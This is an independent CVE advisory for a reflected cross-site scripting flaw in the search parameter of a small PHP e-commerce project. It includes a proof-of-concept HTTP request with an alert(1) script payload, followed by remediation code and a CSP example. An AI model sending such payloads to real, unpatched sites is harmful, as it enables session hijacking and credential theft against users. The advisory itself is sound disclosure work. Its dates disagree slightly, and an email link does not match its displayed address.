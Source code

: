 # 🛡️ CVE Disclosure: CVE-2025-61454 — Reflected XSS in E-commerce Project

**Disclosure Date:** 14 October 2025  
**CVE ID:** CVE-2025-61454  
**Severity:** MEDIUM (CVSS 6.1)

---

## 🧩 Summary

A reflected Cross-Site Scripting (XSS) vulnerability exists in the `E-commerce Project v1.0`, specifically within the `search.php` endpoint. Unsanitized input in the `search` parameter is directly reflected back into the response HTML, allowing attackers to execute arbitrary JavaScript in the browser of a user who visits a malicious link or submits a crafted request.

This issue has been assigned the identifier **CVE-2025-61454**. At the time of disclosure, **no patch** has been released by the vendor.

---

## 📦 Affected Product

- **Vendor:** Independent (Bhabishya-123)  
- **Project:** [E-commerce](https://github.com/Bhabishya-123/E-commerce)  
- **Version:** v1.0  
- **File:** `search.php`  
- **Vulnerable Endpoint:**  
  `http://localhost/e-commerce-main/search.php`

---

## 🔬 Vulnerability Details

The server fails to properly sanitize the `search` parameter from POST data before reflecting it into the response HTML. This allows attackers to inject JavaScript payloads, leading to client-side code execution.

An attacker crafts input containing embedded script-like content and sends it to the vulnerable POST endpoint. Because the server reflects the input into the HTML response without applying proper HTML/attribute/JS encoding, the browser treats the reflected content as executable markup and runs it. This is a reflected (non-persistent) XSS scenario; the attacker must persuade a victim to perform the request or visit a specially constructed link/form.

### Vulnerable Code Pattern (hypothetical):
```php
$search = $_POST['search'];
echo "<div>Search results for: $search</div>";
```

---

## 📌 CWE Classification

| CWE ID | Title                                                                 |
|--------|-----------------------------------------------------------------------|
| [CWE-79](https://cwe.mitre.org/data/definitions/79.html) | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') |

---

## 📊 CVSS v3.1 Score

| Score | Severity | Vector String                              |
|-------|----------|---------------------------------------------|
| 6.1   | MEDIUM   | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` |

---

## 💥 Impact

A successful exploitation could result in:

- 🧠 **Execution of arbitrary JavaScript**
- 🎭 **Phishing or impersonation** via HTML injection
- 🍪 **Session hijacking or token theft**
- 🚨 **Forced redirection or malware delivery**
- 🎣 **Credential harvesting** through fake login forms
- 📊 **Defacement** of the search results page

---

## 🧪 Proof of Concept (PoC)

### 1. Clone the Repository

```bash
git clone https://github.com/Bhabishya-123/E-commerce.git
```

### 2. Host Locally

Use XAMPP/LAMP to deploy the project and access the application.

### 3. Exploit the Vulnerability

#### 📥 Sample Request
```http
POST /e-commerce-main/search.php HTTP/1.1
Host: localhost
Referer: https://localhost/e-commerce-main/
Content-Type: application/x-www-form-urlencoded

search=yxo9p%3cscript%3ealert(1)%3c%2fscript%3exnzmd&submit=
```

#### 📋 Decoded Payload
```
search=yxo9p<script>alert(1)</script>xnzmd&submit=
```

#### 📋 Injected Payload
```html
yxo9p<script>alert(1)</script>xnzmd
```

**Explanation:**  
The payload `<script>alert(1)</script>` is embedded within the search parameter. When a victim submits a search form with this malicious payload (or is tricked into doing so via social engineering), the JavaScript executes in their browser context.

### 4. Expected Result

If vulnerable, the browser will execute the JavaScript code, displaying an alert box with the value `1`. This confirms successful XSS exploitation.

---

## 🔐 Recommendations

- ✅ Use `htmlspecialchars()` or equivalent to encode all untrusted output before rendering to HTML.
- 🧰 Implement **server-side input validation** for all form inputs, especially the search parameter.
- 🧱 Set strong **Content Security Policy (CSP)** headers to prevent inline script execution.
- 🚫 Avoid directly embedding unsanitized user inputs into HTML responses.
- 🔒 Implement proper **output encoding** based on context (HTML, JavaScript, URL, CSS).
- 🛡️ Use modern frameworks that provide automatic XSS protection.

### ✅ Example Fix
```php
$search = htmlspecialchars($_POST['search'], ENT_QUOTES, 'UTF-8');
echo "<div>Search results for: $search</div>";
```

### 🛡️ Content Security Policy Example
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

---

## 📆 Timeline

| Event                    | Date           |
|--------------------------|----------------|
| Vulnerability Discovered | 16 September 2025  |
| Public Disclosure        | 13 October 2025   |
| Patch Available          | ❌ Not available as of disclosure |

---

## 🙋‍♂️ Credits

This vulnerability was discovered and disclosed by:

**Tansique Dasari**  
🔗 [GitHub](https://github.com/tansique-17)  
✉️ [tansique.d@gmail.com](mailto:tansique.17@gmail.com)

---

## 🔗 References

- [OWASP - XSS](https://owasp.org/www-community/attacks/xss/)
- [CWE-79 - XSS Classification](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
- [CVE-2025-61454 on CVE.org](https://cve.org/CVERecord?id=CVE-2025-61454)

---

> 💬 *This advisory is published independently due to absence of an official vendor patch.*
